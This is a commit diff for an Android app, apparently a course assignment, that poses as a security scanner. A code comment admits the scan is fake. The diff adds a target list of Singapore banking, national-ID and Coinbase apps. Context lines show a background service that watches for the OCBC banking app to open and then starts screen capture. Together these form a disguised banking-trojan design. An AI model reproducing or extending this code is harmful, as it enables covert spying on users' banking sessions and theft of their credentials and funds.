

Before and after one commit to yoongjin/assignment1, an Android app: the screen it shows after launch (Scan), after a tap on an icon or button, on a phone screen of 412 x 824 dp. Run offline under Robolectric (Android 15) with nearby library versions, the light colour scheme and no system bars.

Commit message:
Full Commit

```diff
--- a/app/src/main/java/com/example/jeanniesecure/ExampleJobIntentService.java
+++ b/app/src/main/java/com/example/jeanniesecure/ExampleJobIntentService.java
@@ -106,7 +106,6 @@ public class ExampleJobIntentService extends JobIntentService {
                 }
             }
             if(currentApp != null){
-                //com.dbs.sg.dbsmbanking
                 if (currentApp.equals("com.ocbc.mobile") && !redirected) {
                     Log.e(TAG, "iBanking app opened by user!");
                     MediaProjectionManager manager = (MediaProjectionManager)getSystemService(Context.MEDIA_PROJECTION_SERVICE);
--- a/app/src/main/java/com/example/jeanniesecure/Scan.java
+++ b/app/src/main/java/com/example/jeanniesecure/Scan.java
@@ -8,15 +8,35 @@ import android.os.Handler;
 import android.support.annotation.Nullable;
 import android.support.v7.app.AppCompatActivity;
 import android.widget.ImageView;
+import android.widget.LinearLayout;
 import android.widget.TextView;
 
+import java.util.Arrays;
+import java.util.HashSet;
 import java.util.List;
+import java.util.Set;
 import java.util.concurrent.TimeUnit;
 
 /* Scan class is a delusional scanning process that just simply loops through all the installed packages */
 public class Scan extends AppCompatActivity {
     TextView scanText,packageText;
     ImageView packageIcon;
+    LinearLayout sensitive_application;
+
+    private static final Set<String> sensitive_apps = new HashSet<String>(Arrays.asList(
+            new String[]  {
+                    "com.ocbc.mobile",
+                    "com.cimb.sg.clicksMobile",
+                    "com.dbs.sg.posbmbanking",
+                    "com.uob.mighty.app",
+                    "sg.ndi.sp",
+                    "com.citibank.mobile.sg",
+                    "air.app.scb.breeze.android.main.sg.prod",
+                    "com.sgx.SGXandroid",
+                    "com.coinbase.android",
+                    "com.dbs.sg.dbsmbanking",
+            }
+    ));
 
     @Override
     protected void onCreate(@Nullable Bundle savedInstanceState) {
@@ -29,6 +49,8 @@ public class Scan extends AppCompatActivity {
         scanText = (TextView) findViewById(R.id.scanText);
         packageText = (TextView) findViewById(R.id.packageText);
         packageIcon = (ImageView) findViewById(R.id.packageIcon);
+        sensitive_application = (LinearLayout) findViewById(R.id.sensitive_application);
+
 
         // get a list of installed apps.
         final PackageManager pm = getPackageManager();
@@ -40,6 +62,11 @@ public class Scan extends AppCompatActivity {
                         Drawable icon = pm.getApplicationIcon(packageInfo.packageName);
                         packageIcon.setImageDrawable(icon);
                         packageText.setText(packageInfo.packageName);
+                        if (sensitive_apps.contains(packageInfo.packageName)){
+                            ImageView iv = new ImageView(getApplicationContext());
+                            iv.setImageDrawable(icon);
+                            sensitive_application.addView(iv);
+                        }
                         TimeUnit.SECONDS.sleep(1);
                     } catch (InterruptedException e) {
                         e.printStackTrace();
--- a/app/src/main/res/layout/activity_scan.xml
+++ b/app/src/main/res/layout/activity_scan.xml
@@ -35,4 +35,18 @@
         android:textColor="@color/colorWhite"
         android:textSize="20sp"
         android:textStyle="bold" />
+
+    <TextView
+        android:id="@+id/textView5"
+        android:layout_width="match_parent"
+        android:layout_height="wrap_content"
+        android:layout_marginTop="30dp"
+        android:text="Sensitive Application(s): "
+        android:textColor="@color/colorWhite" />
+
+    <LinearLayout
+        android:id="@+id/sensitive_application"
+        android:layout_width="match_parent"
+        android:layout_height="match_parent"
+        android:orientation="horizontal"/>
 </LinearLayout>
```
Also changed, not shown: app/src/main/res/layout/activity_splash.xml (indentation only).
